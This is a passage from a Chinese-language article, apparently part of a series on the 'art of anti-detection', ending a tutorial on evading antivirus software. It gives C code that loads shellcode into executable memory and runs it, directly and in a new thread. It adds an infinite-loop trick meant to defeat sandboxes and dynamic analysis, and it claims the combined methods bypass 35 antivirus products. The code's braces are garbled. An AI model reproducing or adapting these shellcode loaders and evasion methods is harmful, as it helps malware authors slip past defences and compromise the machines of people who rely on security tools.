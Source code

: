 

```
void ExecuteShellcode()`{`
MYPROC Allocate = (MYPROC)GetProcAddress(GetModuleHandle("kernel32.dll"), "VirtualAlloc");
char* BUFFER = (char*)Allocate(NULL, sizeof(Shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
memcpy(BUFFER, Shellcode, sizeof(Shellcode));
(*(void(*)())BUFFER)(); 
`}`
```

**多线程**

逆向分析多线程一直都是困难的，同时也挑战杀软。多线程的方法用在上述所有的方法中，而不是直接指向shellcode。创建线程执行shellcode。



```
void ExecuteShellcode()`{`
char* BUFFER = (char*)VirtualAlloc(NULL, sizeof(Shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
memcpy(BUFFER, Shellcode, sizeof(Shellcode));
CreateThread(NULL,0,LPTHREAD_START_ROUTINE(BUFFER),NULL,0,NULL);
while(TRUE)`{`
BypassAV(argv);
`}` 
`}`
```

在上述代码中创建了新线程执行shellcode，在创建线程后用一个死循环绕过杀软检测，这种方法是一种双保险，既绕过了沙盒系统又绕过了动态分析。绕过一些启发式引擎也是有效的。

<br>

**0x04 总结**

最后，当编译恶意程序时更多想法需要被注意到，堆栈保护需要开启，去除符号可以加大逆向的难度，降低文件大小，本文内联汇编的语法推荐用visual studio编译。

我们的方法组合起来生成的恶意程序能够绕过35个杀软产品。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t019e7ee290b0c96dad.png)



****

**传送门**

[**【技术分享】反侦测的艺术part2：精心打造PE后门（含演示视频）******](http://bobao.360.cn/learning/detail/3407.html)

[**【技术分享】反侦测的艺术part3：shellcode炼金术**](http://bobao.360.cn/learning/detail/3589.html)

[********](http://bobao.360.cn/learning/detail/3407.html)
